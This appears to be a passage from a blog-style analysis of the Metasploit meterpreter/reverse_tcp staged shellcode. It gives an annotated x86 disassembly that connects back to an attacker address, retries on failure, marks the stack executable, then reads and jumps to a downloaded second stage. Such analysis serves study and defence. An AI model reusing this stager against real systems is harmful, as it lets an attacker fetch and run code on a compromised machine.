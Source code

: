 ```
20: 6a 66                   push   0x66
22: 58                      pop    eax      ;eax=0x66, 'connect' syscall number
23: 50                      push   eax      ;push 0x66 on the stack (socketcall)
24: 51                      push   ecx      ;push the address of the parameters
25: 57                      push   edi      ;push the socket file descriptor
26: 89 e1                   mov    ecx,esp  ;ecx now points to the parameters on the stack
28: 43                      inc    ebx      ;ebx=3
;EAX=0x66 (socketcall)
;EBX=3 (connect)
;ECX -> &(sockaddr parameters)


29: cd 80                   int    0x80 ;call syscall (connect)
2b: 85 c0                   test   eax,eax  ;check if eax is 0 (connection successful)
2d: 79 19                   jns    0x48
2f: 4e                      dec    esi  ;if connection failed,
30: 74 3d                   je     0x6f
32: 68 a2 00 00 00          push   0xa2 ;prepare nanosleep syscall
37: 58                      pop    eax
38: 6a 00                   push   0x0
3a: 6a 05                   push   0x5
3c: 89 e3                   mov    ebx,esp
3e: 31 c9                   xor    ecx,ecx
40: cd 80                   int    0x80 ;call nanosleep (wait for signal)
42: 85 c0                   test   eax,eax
44: 79 bd                   jns    0x3
46: eb 27                   jmp    0x6f
48: b2 07                   mov    dl,0x7
4a: b9 00 10 00 00          mov    ecx,0x1000
4f: 89 e3                   mov    ebx,esp
51: c1 eb 0c                shr    ebx,0xc
54: c1 e3 0c                shl    ebx,0xc
57: b0 7d                   mov    al,0x7d
59: cd 80                   int    0x80
5b: 85 c0                   test   eax,eax
5d: 78 10                   js     0x6f
5f: 5b                      pop    ebx
60: 89 e1                   mov    ecx,esp
62: 99                      cdq
63: b6 0c                   mov    dh,0xc
65: b0 03                   mov    al,0x3
67: cd 80                   int    0x80 ;read syscall
69: 85 c0                   test   eax,eax
6b: 78 02                   js     0x6f
6d: ff e1                   jmp    ecx
6f: b8 01 00 00 00          mov    eax,0x1
74: bb 01 00 00 00          mov    ebx,0x1
79: cd 80                   int    0x80 ;sys_exit
```

The idea is to create a socket then try to connect to a certain IP/PORT. If it does not succed, wait for a few seconds or the delivery of a signal (connection). If the time runs off, goes back to the beginning and try to connect once again. When if finally succeds, read whatever is sent (probably the next stage).

![meterpreter/reverse_tcp]({{ "/assets/media/meterpreter_reverse_tcp_staged.png" | absolute_url }})
